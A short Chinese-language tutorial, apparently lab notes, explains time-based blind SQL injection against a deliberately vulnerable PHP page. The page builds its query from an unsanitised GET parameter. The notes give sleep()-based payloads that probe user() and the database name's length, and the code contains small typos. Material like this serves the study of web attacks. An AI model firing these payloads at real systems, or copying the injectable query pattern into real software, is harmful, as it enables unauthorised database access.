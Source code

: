 # 代码分析

```
<?php
$con = sqli_content("localhost", "root", "root", "test");
if (mysqli_connect_errno()){
    echo "连接失败" . mysqli_connect_errno();
}
$id = $_GET['id'];
if (preg_match("/union/i", $id)) {
    exit("<html><body>no</body></html>");
}
$result = mysqli_query($con, "select * from users where 'id' ='" . $id . "'");
$row = mysqli_fetch_array($result);
if ($row){
    exit("<html><body>yse</body></html>");
}else{
    exit("<html><body>no</bofy></html>");
}
?>
```

 - 此处依旧可以使用布尔盲注或其他注入方法，这里使用时间注入
 - 当访问`id=1' and if(ord(substr(user(), 1, 1))=144, sleep(3), 1) %23`，执行的SQL语句为`select * from users where 'id'='1' and if(ord(substr(user(), 1, 1)=144, sleep(3), 1)%23'`，如果user()查询的用户的第一个字母的ascii为144那么成立，就会延迟3秒，通过延迟来判断SQL语句的运行结果
- 界面返回值只有一种True，无论输入何值，返回的情况都是会按照正常的来处理，加入特定的函数，通过查看WEB页面返回时间差来判断注入的语句是否正确

# 函数

> sleep() : 延时

> if(expr1, expr2, expr3) : 判断

> 这里的`if(expr1,expr2,expr3)`是判断语句如果第一个语句正确就执行第二个语句如果错误执行第三个语句，这样就可以检测是否正确

# 流程

- 判断注入

  ```
  ?id=1 and sleep(5)
  ?id=1 or sleep(5)
  ```

## 数据库

1. 查看库名长度

   ```mysql
   ?id=1" and if(length(database())=12,sleep(10),1)-- qwe
   ```
